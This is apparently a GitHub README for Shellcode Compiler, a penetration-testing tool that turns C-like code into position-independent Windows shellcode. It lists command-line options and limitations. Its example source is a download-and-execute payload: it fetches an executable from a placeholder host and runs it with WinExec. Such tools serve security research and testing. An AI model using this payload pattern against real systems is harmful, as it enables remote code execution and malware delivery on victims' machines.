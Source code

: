 # Shellcode Compiler
--------------------

Shellcode Compiler is a program that compiles C/C++ style code into a small, position-independent and NULL-free shellcode for Windows. It is possible to call any Windows API function in a user-friendly way.

Shellcode Compiler takes as input a source file and it uses it's own compiler to interpret the code and generate an assembly file which is assembled with NASM (http://www.nasm.us/). 

Shellcode compiler was released at DefCamp security conference in Romania, November 2016.

# Command line options
----------------------
        -h (--help)      : Show this help message
        -v (--verbose)   : Print detailed output
        -t (--test)      : Test (execute) generated shellcode
        -r (--read)      : Read source code file
        -o (--output)    : Output file of the generated binary shellcode
        -a (--assembbly) : Output file of the generated assembly code

# Source code example
---------------------

        function URLDownloadToFileA("urlmon.dll");
        function WinExec("kernel32.dll");
        function ExitProcess("kernel32.dll");

        URLDownloadToFileA(0,"https://site.com/bk.exe","bk.exe",0,0);
        WinExec("bk.exe",0);
        ExitProcess(0);
        
# Invocation example
--------------------
        ShellcodeCompiler.exe -r Source.txt -o Shellcode.bin -a Assembly.asm
        
# Limitations
-------------
1. It is not possible to use the return value of an API call
2. It is not possible to use pointers or buffers
3. It is not possible to declare variables
4. It is not possible to output hex strings

All these limitations will be fixed as soon as possible. However, many other limitations will exist.
This is an Alpha version. Please report any bugs or suggestions.

# Author
--------

Ionut Popescu (@NytroRST) is working as a Senior Penetration Tester for SecureWorks (www.secureworks.com).
